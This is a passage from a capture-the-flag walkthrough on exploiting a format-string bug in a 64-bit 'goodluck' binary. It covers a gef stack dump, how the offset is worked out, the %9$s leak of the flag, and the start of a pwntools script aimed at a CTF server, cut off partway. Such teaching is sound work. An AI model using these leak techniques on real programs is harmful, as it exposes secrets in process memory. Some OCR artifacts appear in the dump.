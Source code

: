 ```shell

0x00007fffffffdb10│+0x08: 0x0000000031000001

0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)

0x00007fffffffdb20│ + 0x18: 0x0000000000602010 → &quot;You answered: \ ng&quot;
0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"

0x00007fffffffdb30│+0x28: "flag{11111111111111111"

0x00007fffffffdb38│+0x30: "11111111111111"

0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)

──────────────────────────────────────────────────────────────────────────────[ trace ]────

[#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")

[#1] 0x400890 → Name: main()

─────────────────────────────────────────────────────────────────────────────────────────────────





```



It can be seen that the offset on the stack corresponding to the flag is 5, and the offset is 4 except for the corresponding first behavior return address. In addition, since this is a 64-bit program, the first 6 parameters exist in the corresponding registers, and the fmt string is stored in the RDI register, so the offset of the address corresponding to the fmt string is 10. The order corresponding to `%order$s` in the fmt string is the order of the arguments after the fmt string, so we only need to type `%9$s` to get the contents of the flag. Of course, we have an easier way to use fmtarg in https://github.com/scwuaptx/Pwngdb to determine the offset of a parameter.


```shell

gef➤  fmtarg 0x00007fffffffdb28

The index of format argument : 10

```



Note that we have to break at printf.


#### Using the program


```python

from pwn import *

from LibcSearcher import *

goodluck = ELF('./goodluck')

if args['REMOTE']:

    sh = remote('pwn.sniperoj.cn', 30017)

else:

```